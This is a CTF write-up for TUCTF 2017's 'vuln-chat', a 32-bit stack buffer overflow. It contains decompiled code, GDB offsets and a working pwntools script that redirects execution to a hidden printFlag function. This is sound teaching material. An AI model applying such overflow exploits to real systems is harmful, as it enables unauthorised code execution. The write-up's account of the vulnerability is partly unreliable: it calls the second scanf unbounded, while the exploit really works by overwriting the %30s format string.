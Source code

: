 # TUCTF 2017 - vuln-chat Writeup

## Overview
This challenge, **vuln-chat**, is a 32-bit binary exploitation problem from TUCTF 2017. The goal is to exploit a buffer overflow vulnerability to call the hidden `printFlag` function and retrieve the flag.

Files provided:
```
flag.txt
vuln-chat
```

Additionally, a walkthrough recording is included in **`vuln.cast`** for easy replay using [asciinema](https://asciinema.org/).

---

## Step 1. Analyzing the Binary
First, let's determine the binary's basic properties:

```bash
file vuln-chat
```
Output:
```
vuln-chat: ELF 32-bit LSB executable, Intel i386, dynamically linked, not stripped
```

Check for security protections:
```bash
pwn checksec vuln-chat
```
Output:
```
Arch:       i386-32-little
RELRO:      No RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

Key points:
- **NX enabled**: Cannot directly execute shellcode on the stack.
- **No PIE**: Function addresses are static.
- **No stack canary**: Vulnerable to buffer overflow.

---

## Step 2. Reverse Engineering with Ghidra
The `main` function (from `ghidra.txt`):

```c
undefined4 main(void) {
    char local_31[20];
    char local_1d[20];
    undefined4 local_9;
    undefined1 local_5;

    setvbuf(stdout, NULL, 2, 0x14);
    puts("----------- Welcome to vuln-chat -------------");
    printf("Enter your username: ");

    local_9 = 0x73303325;  // format string "%30s"
    local_5 = 0;
    __isoc99_scanf(&local_9, local_1d);

    printf("Welcome %s!\n", local_1d);
    puts("Connecting to 'djinn'");
    sleep(1);
    puts("--- 'djinn' has joined your chat ---");
    puts("djinn: I have the information. But how do I know I can trust you?");

    printf("%s: ", local_1d);
    __isoc99_scanf(&local_9, local_31);

    puts("djinn: Sorry. That's not good enough");
    fflush(stdout);
    return 0;
}
```

Hidden function:
```c
void printFlag(void) {
    system("/bin/cat ./flag.txt");
    puts("Use it wisely");
}
```

**Vulnerability:**
- The second `scanf` call writes into `local_31` (20 bytes), but user input is **not bounded**, allowing buffer overflow.
- Goal: Overflow the buffer to overwrite the **saved return address** with the address of `printFlag`.

---

## Step 3. Finding the Offsets
Run the binary under `gdb` to identify offsets.

### Username buffer
```
AAAAAAAAAAAAAAAA
```
The buffer size for the username (`local_1d`) is 20 bytes.

### Message buffer overflow
Input a pattern into the second prompt to find how many bytes are needed to overwrite EIP.

```bash
AAAAAAAAAAAAAAAAAAAA
BBBBBBBBBBBBBBBBBBBB
```

Using GDB:
- Offset to **EIP overwrite** = **49 bytes**

---

## Step 4. Exploit Development

We will:
1. Send a valid username with proper format string.
2. Overflow the second input and overwrite return address with `printFlag`.

### Address of `printFlag`
```bash
gdb-peda$ b printFlag
Breakpoint 4 at 0x0804856e
```
Address: **`0x0804856b`** (adjusted to actual call).

### Final Exploit Code (`exp.py`)
```python
from pwn import *

# Step 1: Start the process
p = process("./vuln-chat")

# Step 2: Payload for username
pay = b"A" * 20
pay += p32(0x73393925)  # fake format string
p.recvuntil(b"Enter your username:")
p.sendline(pay)

# Step 3: Overflow payload to hijack control flow
pay1 = b"A" * 49
pay1 += p32(0x0804856b)  # Address of printFlag
p.recvline(b"I know I can trust you?")
p.sendline(pay1)

# Step 4: Switch to interactive to read flag
p.interactive()
```

---

## Step 5. Running the Exploit

```bash
python exp.py
```

Output:
```
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
AAAAAAAAAAAAAAAAAAAA%99s: djinn: Sorry. That's not good enough
ctf{test_flag}
Use it wisely
```

Flag captured successfully: **`ctf{test_flag}`**

---

## Step 6. Walkthrough Recording
The full exploitation process was recorded using **asciinema** and saved in `vuln.cast`.

To replay:
```bash
asciinema play vuln.cast
```

This will show the entire step-by-step terminal session used to solve the challenge.

---

## Conclusion
This challenge demonstrated a classic **stack-based buffer overflow** exploit. Key steps included:
- Identifying unsafe `scanf` usage.
- Calculating exact buffer overflow offsets.
- Redirecting execution to a hidden function (`printFlag`).

The inclusion of the `vuln.cast` file makes it easy to follow along visually.

**Flag:**
```
ctf{test_flag}
```

